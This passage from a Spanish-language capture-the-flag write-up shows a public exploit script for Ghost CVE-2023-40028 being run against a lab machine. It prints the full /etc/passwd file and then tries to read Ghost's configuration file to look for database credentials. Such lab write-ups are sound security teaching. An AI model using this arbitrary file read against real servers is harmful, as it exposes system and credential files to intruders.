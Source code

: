 Entonces, ahora, vamos a abrir el script que nos habíamos clonado antes para modificar la URL del `Ghost` al que nos estamos enfrentando.
![Write-up Image](images/Screenshot_12.png)

Y vemos que la vulnerabilidad se acontece y efectivamente podemos leer archivos del sistema.
```console
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

Vemos que existe un usuario `node` pero no podemos acceder a sus ficheros.

Por ahora no encuentro el archivo `config.production.json` que es el que hemos visto antes, quizás ahora si que se estén utilizando credenciales de acceso a la base de datos.
```console
file> /var/www/ghost/core/core/shared/config/env/config.production.json
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Not Found</pre>
</body>
</html>
file> /var/www/html/core/core/shared/config/env/config.production.json
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Not Found</pre>
</body>
```